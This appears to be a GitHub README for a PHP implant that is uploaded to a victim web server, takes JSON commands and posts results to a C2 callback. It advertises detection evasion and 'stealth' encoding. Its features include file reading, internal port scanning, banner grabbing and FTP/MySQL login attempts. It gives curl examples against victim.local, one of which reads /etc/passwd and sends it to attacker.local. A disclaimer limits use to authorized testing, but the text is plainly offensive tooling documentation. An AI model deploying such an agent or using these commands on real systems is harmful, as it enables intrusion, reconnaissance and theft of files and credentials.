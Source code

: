 # PHP Network Utility Script

This PHP script provides a JSON-controlled HTTP interface for performing a variety of system and network enumeration tasks using built-in PHP functions. It is designed for controlled environments such as penetration testing labs or internal audits.

> ⚠️ **Important:** This tool is intended for educational or authorized security testing in controlled environments only. Unauthorized use against systems you do not own or have explicit permission to test is illegal.

---

## Features

- Utilize built-in PHP functions to evade detection
- File and directory inspection (`readfile`, `scandir`)
- Port scanning on internal hosts (`portscan`)
- HTTP(S) content fetching (`http_get`)
- DNS resolution and PTR lookup (`dns_lookup`)
- Banner grabbing for FTP and SSH (`ftp_banner`, `ssh_banner`)
- Basic login attempts for FTP and MySQL (`ftp_login`, `mysql_login`)
- SMB probe using raw TCP (`smb_probe`)
- GZIP + Base64 encoding for stealth and compression

---

## Usage

### 1. Upload the Script

Place the script on a PHP-enabled web server (e.g., `/var/www/html/agent.php`).

### 2. Send a JSON Request

Send a `POST` request with the required JSON fields:

- `action`: One of the supported operations
- `target`: Internal hostname, IP, or file path (context-sensitive)
- `callback`: URL to receive the result via POST (C2 server)

Optional fields for some modules:

- `username`, `password`: Used in `ftp_login` or `mysql_login`
- `directory`: Used in `ftp_login`

### Example `curl` Usage

```bash
curl -X POST http://victim.local/agent.php \
  -H "Content-Type: application/json" \
  -d '{
    "action": "portscan",
    "target": "internal.local:22",
    "callback": "http://attacker.local/server.php"
}'
```

### Supported Actions

| Action         | Description                                      | Required Fields                             | Optional Fields                        |
|----------------|--------------------------------------------------|----------------------------------------------|----------------------------------------|
| `readfile`     | Reads contents of a file                         | `action`, `target`, `callback`               | –                                      |
| `scandir`      | Lists contents of a directory                    | `action`, `target`, `callback`               | –                                      |
| `portscan`     | Checks if a TCP port is open                     | `action`, `target` (`host:port`), `callback` | –                                      |
| `http_get`     | Makes HTTP(S) GET request, ignores SSL errors    | `action`, `target`, `callback`               | –                                      |
| `dns_lookup`   | Resolves hostname or does reverse lookup         | `action`, `target`, `callback`               | –                                      |
| `ftp_banner`   | Connects to FTP server and reads banner          | `action`, `target`, `callback`               | –                                      |
| `ssh_banner`   | Connects to SSH server and reads banner          | `action`, `target`, `callback`               | –                                      |
| `mysql_login`  | Attempts MySQL login without database access     | `action`, `target`, `username`, `callback`   | `password`                             |
| `ftp_login`    | Attempts FTP login and lists a directory         | `action`, `target`, `callback`               | `username`, `password`, `directory`    |
| `smb_probe`    | Sends probe to SMB port and captures raw reply   | `action`, `target`, `callback`               | –                                      |

## Configuration

- **C2 Hosting**: Deploy the `server.php` script on a PHP-enabled web server.
- **Victim**: Upload to a known, web-accessible directory.
- **Issue Request**: JSON POST requests with the following structure:
  ```json
  {
    "action": "readfile",
    "target": "/etc/passwd",
    "callback": "http://attacker.local/server.php"
  }

### Notes
- This script is designed to use only built-in PHP functions—no external binaries or system shell calls—making it stealthier in restricted environments.
- All actions run filelessly and are sandbox-safe unless explicitly used to write/upload content elsewhere.
- Ensure your web server has permissions to read targets (files, dirs, sockets).

### License
This tool is provided "as-is" for legal and educational use. You are responsible for complying with all laws and regulations applicable in your jurisdiction.

